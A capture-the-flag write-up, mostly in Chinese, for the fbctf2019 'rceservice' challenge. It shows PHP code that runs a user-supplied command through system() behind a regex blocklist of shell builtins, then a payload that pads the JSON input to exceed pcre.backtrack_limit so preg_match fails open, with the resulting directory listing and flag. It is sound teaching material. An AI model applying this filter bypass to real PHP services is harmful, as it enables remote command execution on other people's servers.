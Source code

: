 # rceservice

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

這題題目很短，用`preg_match`擋了一堆東西

但我們知道PHP有`pcre.backtrack_limit`限制，預設情況下，當回溯超過`1000000`次時，會回傳 `false`

(https://www.php.net/manual/en/pcre.configuration.php)

在弱比較(Weak typing)下等同匹配成功，就成功繞過惹

(`false == 0` => `true`)

e.g.

`'{"cmd":"ls -al /home/rceservice/","zz":"' + "a"*(1000000) + '"}'`

=>

```
drwxr-xr-x 1 root root       4096 May 26 21:20 ..
-r--r--r-- 1 root rceservice   43 May 23 03:58 flag
dr-xr-xr-x 1 root rceservice 4096 May 26 21:20 jail
```

Bypass successfully!


詳細 payload 見[exp.py](https://github.com/w181496/CTF/blob/master/fbctf2019/rceservice/exp.py)

flag: `fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}`
